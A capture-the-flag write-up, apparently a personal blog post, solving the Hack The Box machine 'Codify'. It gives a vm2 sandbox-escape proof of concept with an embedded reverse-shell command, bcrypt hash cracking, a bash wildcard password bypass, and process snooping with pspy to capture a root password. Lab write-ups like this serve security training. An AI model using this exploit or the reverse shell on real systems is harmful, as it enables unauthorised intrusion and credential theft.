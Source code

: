 ```yaml
---
title: HTB Codify Writeup
date: 2023-11-24 04:15:16 +0600
categories: [Linux, Easy]
tags: [htb] 
toc: true    
---
```


![Codify Pwned](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/codify_pwned.png "Pwned haha!!")

# Introduction
What's up!! Red Teamers. In this post we will try to solve the linux machine **Codify**. It is rated as easy and the machine is from **Open Beta Season III**. 

# Enumeration
Starting with the nmap scan...... 

```bash
sudo nmap -sS -T4 -n -v -A 10.10.11.239 > nmap_discovered_ports
```

What do we have here??

```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http        Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3000/tcp open  http        Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
8080/tcp open  http-proxy?
```

The IP redirects to `http://codify.htb/`. So we need to add the IP and hostname in the hosts file. For linux, it's `/etc/hosts` and for windows, it's `c:\Windows\System32\Drivers\etc\hosts`.

Then we get ...

![Home Page](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/home_page.PNG)

It says it's a simple web application that allows you to test your Node.js code easily. There is also a about page if you notice. From about page we got something interesting.

![About Page](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/codify_about.PNG)

We found the library that was used to build this sandbox. It says The `vm2` library is widely used and trusted tool for sandboxing javascript. Just hold onto that, will you?

And... last but not least, the code editor.

![Code Editor](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/editor.PNG)

# Foothold 

Remember that `vm2` library?? If you do some googling, I'm sure you will bump into these resources from [Github](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) and [Snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100).

Now use the POC javascript code to get a reverse shell. You can generate reverse shells in here [revshells](https://www.revshells.com/).

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("bash -i >& /dev/tcp/IP/PORT 0>&1").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```

You'll get the shell in no time.

# Lateral Movement
Now that you're in as `www-data`, first stabilize the shell. 

```Bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z(bg)
$ stty raw -echo;fg
$ export TERM = xterm
```
As we are in as `www-data`, we should see what we have in the web server. A sqlite db file was found in `/var/www/` directory. And we found a credential of a user named 'joshua'.

```plaintext
joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

It's a bcrypt hash. We can use either `hashcat` or `john` to crack this. It won't take long whichever you use. Upon cracking the password, you can use the password to login as `joshua` via ssh.

![Got joshua](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/joshua.png)

Now you have the user flag.

# Priviledge Escalation 

Run the command `sudo -l`...

![permissions](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/sudo-l.png)

You can run `/opt/scripts/mysql-backup.sh` as root. Let's see the code here.

![mysql_backup.sh](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/codify-htb/mysql_backup_sh.png)

It takes an input password for root and compares them with `.creds` in `root` directory. Then it has mysql commands to backup databases. Kinda strange that it uses password in the command as plaintext. To get to that, we have to bypass the validation first. Do you know the comparison operations of bash?


You can read briefly [here](https://tldp.org/LDP/abs/html/comparison-ops.html).

To be exact , if double brackets are used in string comparison, you can use regex or pattern matching there. And in the script, double brackets are used. So if you put `*` as input, it will be a correct password cuz `*` matches everything including the required password.



And the script runs. But how can we see the password from those mysql commands for backing up the database? Well, we can use [pspy](https://github.com/DominicBreuker/pspy). 

It says "*pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea*".

So login to ssh with another terminal. Then run pspy in one terminal and the script in other as sudo. You'll see the password in no time. You may have to run the script multiple times.


Now that you have the password, let's try to login as root. Annnnd, voila, we are root. You know where is the root flag.


#### Happy Hacking :)





